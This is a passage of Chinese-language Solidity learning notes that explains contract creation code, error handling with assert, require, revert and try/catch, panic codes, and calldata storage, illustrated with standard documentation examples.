        uint keyIndex = self.data[key].keyIndex;
        self.data[key].value = value;
        if (keyIndex > 0) {
            return true;
        }else {
            self.keys.push();
            keyIndex = self.keys.length;
            self.data[key].keyIndex = keyIndex;
            self.keys[keyIndex-1].key = key;
            self.size++;
            return false;
        }
    }
}
```

## 11. creationCode

在合约中，可通过type(c).creationCode获得合约c的creationCode.

creationCode为合约部署字节码，用来部署合约。

不能在合约内部或者继承合约内访问该变量，因为这样会造成循环调用。

`solc --bin` 可获得合约的字节码 `byteCode `；`solc --bin-runtime` 可获得合约的 `runtimeCode` ，即运行时字节码。

那么`byteCode` 和 `runtimeCode` 以及 `creationCode` 有什么关系呢？

首先在定义上，`bytesCode` 是合约整理编译后产生的字节码；`runtimeCode` 是合约部署后产生的运行时字节码，调用合约函数使用；`creationCode` 是部署合约时用到的字节码。

在数值上，有什么联系？

通过观察比较，发现 `creationCode` 和`byteCode` 并没有部分等值关系；而 `runtimeCode` 和 `byteCode` 的后半部分数值相等（相等的部分前面有3256个数值，即1628个字节）。

## 12. 合约函数参数bytes大小限制

目前不知道合约参数里bytes数值的大小限制，但是经测试，10720个字节的大小是允许的，只不过交易过大，会长时间pending.

## 13. 越界访问

如果在越界或负索引处访问数组、bytesN 或数组切片（即 x[i]，其中 i >= x.length 或 i < 0），就会出现 panic 错误，会返回 revert 报错。

## 14. 返回错误信息

```sol
require(!false, "error message");
或者
if (!false) {
    revert("error message");
}
上述两种方法是等价的。
```

```sol
error NotEnoughFunds(uint requested, uint available); // 定义一个错误类型
if (!false) {
    revert NotEnoughFunds(amount, balance);
}
```

上述方法会比使用字符串当错误信息要节省 gas，毕竟只用一个错误名字。可以在 NatSpec注释添加更加详细的错误信息。但是不要相信错误类型返回的值，因为该值可以被恶意返回错误的数字，对于重要数据用户应该额外验证。

## 15. 错误处理Assert,Require,Revert and Exceptions

solidity使用状态恢复异常来处理错误。当子调用出现异常时，它们会“冒泡“（即异常会自动重新抛出，除非它们被try/catch语句捕获）。这一规则的例外情况是`send`以及低级函数`call`、`delegatecall`和`staticcall`，它们返回false作为第一个返回值，以防万一异常，而不是”冒泡“。

异常可以包含传回调用者的错误数据（以错误示例的形式），内置错误`Error(string)`和`Panic(uint256)`是由特殊函数使用。`Error`用于”常规“错误情况而`Panic`用于表示不应出现在无错误代码中的错误。

通过`assert`出现panic，通过`require`出现错误error。

### assert

`assert`函数会创建`Panic(uint256)`类型的错误。

`assert`应该只用于测试内部错误以及检查不变量。正常运行的代码应该永远不会造成panic，即使外部输入无效。如果出现panic，那你应该修复你的代码。以下情况会产生panic异常（错误码以及错误信息）：

1. 0x00: 通用编译器插入panic

2. 0x01: 用计算结果为false的参数调用`assert`

3. 0x11: 如果算数运算导致在`unchecked{...}`块之外下溢或上溢（unchecked不检查上溢下溢）

4. 0x12: 如果除以0或取模0

5. 0x21: 如果将太大或负数的值转为枚举类型

6. 0x22: 如果访问编码错误的存储字节数组

7. 0x31: 如果在空数组上调用`.pop()`

8. 0x32: 如果访问数组越界或负索引

9. 0x41: 如果分配了太多内存或创建了太大的数组

10. 0x51: 如果调用内部函数类型的零初始化变量

### require

`require`会创建一个没有任何数据的错误，或者`Error(string)`类型的错误。

它应用于直到执行时才能检测到的有效条件，包括输入条件或调用外部合约时的返回值。

> 目前无法组合使用自定义错误与`require`，请改用`if(!condition)revert CustomError()`.

在下述情况，会由编译器生成`Error(string)`异常（或没有数据的异常）：

1. 调用`require(x)`，其中x的计算结果为false

2. 如果使用`revert()`或者`revert("description")`

3. 如果你针对一个不包含任何代码的合约执行了一个外部函数调用

4. 如果你的合约通过公共函数接收以太币而没有写`payable`修饰符（包括构造函数和fallback函数）

5. 如果你的合约通过公共getter函数接收以太币

&nbsp;

对于以下情况，来自外部调用的错误数据（如果有的话）会被转发。这意味着它可能导致`Error`或`Panic`或给出的其他内容：

1. 如果`transfer()`失败

2. 如果通过消息调用调用函数但未正确地完成（即：耗尽gas、没有匹配的函数、本身抛出异常（Error or Panic）），除非是低级操作`call`、`send`、`delegatecall`、`callcode`或`staticcall`，低级操作永远不会抛出异常，但是会通过返回`false`来指示失败。

3. 如果使用`new`关键字创建合约，但合约创建未正确完成

> 如果没有向`require`提供字符串参数，它将恢复错误数据为空，甚至不包括错误选择器。

&nbsp;

对`assert`和`require`这两种情况，solidity在内部执行`revert`操作（指令0xfd），这导致EVM恢复对状态所做的所有更改。

在这两种情况下，调用者都可以使用`try/catch`对此类失败做出反应，但是被调用者的改变将总是被恢复。

### revert

当使用`revert`声明和`revert`函数时会直接触发`revert`。

`revert`语句将自定义错误作为不带括号的直接参数：`revert CustomError(arg1,arg2);`

出于向后兼容性的原因，还有`revert`函数，该函数使用括号并接受一个字符串：`revert(); revert("description");`

错误数据被传回给调用者caller并可以在那里捕获catch。使用`revert()`会导致恢复，而不会出现任何错误数据，而`revert("description")`将产生`Error(string)`错误。

使用自定义错误示例通常比字符串描述便宜得多，因为您可以使用错误得名称来描述它，该名称仅编码为4个字节。可以通过`NatSpec`提供更长得描述，这不会产生任何费用。示例：

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.4;

contract VendingMachine {
    address owner;
    error Unauthorized();
    function buy(uint amount) public payable {
        if (amount > msg.value / 2 ether)
            revert("Not enough Ether provided.");
        // Alternative way to do it:
        require(
            amount <= msg.value / 2 ether,
            "Not enough Ether provided."
        );
        // Perform the purchase.
    }
    function withdraw() public {
        if (msg.sender != owner)
            revert Unauthorized();

        payable(msg.sender).transfer(address(this).balance);
    }
}
```

其中，只要revert和require的参数没有副作用（比如它们只是strings），`if(!condition) revert(...);`和`require(condition, ...)`是等价的。

> 注意：require函数的计算与其他任何函数一样。这意味着所有参数都会在函数本身执行之前进行计算。特别是，在`require(condition, f())`中，即使`condition`为true，函数`f()`也会执行。

提供的字符串是abi-encoded的，就像是对函数`Error(string)`的调用。在上面的例子中，`revert("Not enough Ether provided.");`返回下述的十六进制作为错误返回数据：

```solidity
0x08c379a0                                                         // Function selector for Error(string)
0x0000000000000000000000000000000000000000000000000000000000000020 // Data offset
0x000000000000000000000000000000000000000000000000000000000000001a // String length
0x4e6f7420656e6f7567682045746865722070726f76696465642e000000000000 // String data
```

调用者caller可以使用`try/catch`检索所提供的消息。

### try/catch

外部调用的失败可以用`try/catch`声明来捕获：

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.8.1;

interface DataFeed { function getData(address token) external returns (uint value); }

contract FeedConsumer {
    DataFeed feed;
    uint errorCount;
    function rate(address token) public returns (uint value, bool success) {
        // Permanently disable the mechanism if there are
        // more than 10 errors.
        require(errorCount < 10);
        try feed.getData(token) returns (uint v) {
            return (v, true);
        } catch Error(string memory /*reason*/) {
            // This is executed in case
            // revert was called inside getData
            // and a reason string was provided.
            errorCount++;
            return (0, false);
        } catch Panic(uint /*errorCode*/) {
            // This is executed in case of a panic,
            // i.e. a serious error like division by zero
            // or overflow. The error code can be used
            // to determine the kind of error.
            errorCount++;
            return (0, false);
        } catch (bytes memory /*lowLevelData*/) {
            // This is executed in case revert() was used.
            errorCount++;
            return (0, false);
        }
    }
}
```

`try`关键字后面必须跟一个表示一个外部函数调用的表达式或者一个合约创建（`new ContractName()`）。表达式内部的Errors不会被捕获（比如说它是一个复杂的表达式，它也包含内部函数调用），只有当外部函数内部本身发生了`revert`。接下来的`returns`部分（可选）声明与外部调用返回的类型相匹配的返回变量。如果没有错误，则会分配这些变量，并且合约的执行将在第一个成功块内继续。如果到达成功块的末尾，则在`catch`块之后继续执行。

solidity支持不同类型的`catch`块，具体取决于错误类型：

* `catch Error(string memory reason) {...}`: 如果错误是由`revert("reasonString"); require(false,"reasonString")`引起的，则执行此catch子句

* `catch Panic(uint errorCode) {...}`: 如果错误是由恐慌panic引起的，比如`assert`失败，除以0，无效数组访问，算术溢出等等，则执行此catch子句

* `catch (bytes memory lowLevelData) {...}`: 如果错误签名error signature与任何其他子句都不匹配、解码错误消息时出现错误或者没有随异常提供错误数据（比如`revert()`）时，则执行此catch子句。在这种情况下，声明的变量提供对低级错误数据的访问

* `catch {....}`: 如果你对错误数据不感兴趣，你可以直接使用该子句（即使作为唯一的catch子句）

字符串`Error`和`Panic`当前按原样解析，不被视为标识符。

`returns`和`catch`子句中声明的变量仅在其接下来的块的范围内有效。

## 16. 数据存储

### calldata

calldata作为EVM中数据存储的位置之一，是只读的，非持久化存储的（交易结束就失效），大小不受限的（当然，还会受到gaslimit的限制）。

但是，calldata作为交易的`inputdata`，作为交易历史的一部分，会保留在区块中，每个共识层节点都会同步保留，在链上是会持久化存储的。也就是持久化存储在共识层。

而在执行层，也就是EVM执行的环境中，calldata并不是持久存储的。
